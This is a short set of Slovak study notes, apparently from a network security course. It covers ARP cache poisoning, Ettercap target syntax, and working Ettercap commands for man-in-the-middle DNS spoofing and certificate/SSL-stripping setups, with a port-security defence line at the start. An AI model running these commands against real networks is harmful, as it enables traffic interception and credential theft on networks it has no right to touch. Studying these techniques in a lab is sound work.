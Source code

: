 ochrana:
`switch port-sec maximum 10` - na jednom porte maximalne 10 mac adries - port sa potom zaloguje/vypne

# APR Poisoning

posledná (aj falošná) ARP odpoveď vyhráva.

## windows routing, arp cache vypis

```
route print -4
arp -a 10.0.0.199
```

## MITM - Ettercap

### syntax

/mac/ipadresa/port/ -> /*/ipadresa/*/ -> //ipadresa//  
cielova skupina 1 ()  
cielova skupina 2 (moja adresa)  

1cil: /mac/ip/port/ //ip//  
viac cielov: /ip1-x/port /ip1-x//  

### dns spoofing

```bash
ettercap -TqM arp:remote //10.102.0.1// //10.102.20.131// -i eth0
# zmacknut p ako plugins
dns_spoof
```

uprava dns zaznamov:

```
vim /etc/ettercap/etter.dns
ettercap -TqM arp:remote /10.102.0.1-5// //10.102.20.131// -i eth0 -P dns_spoof
```

### pre spoof s certifikatmi

/etc/ettercap/etter.config
```
[privs]
ec_uid = 0
ec_guid = 0

# odkomentovat [linux] -> iptables riadky pre prerouting
```

- sslstrip (<https://moxie.org/software/sslstrip/)>
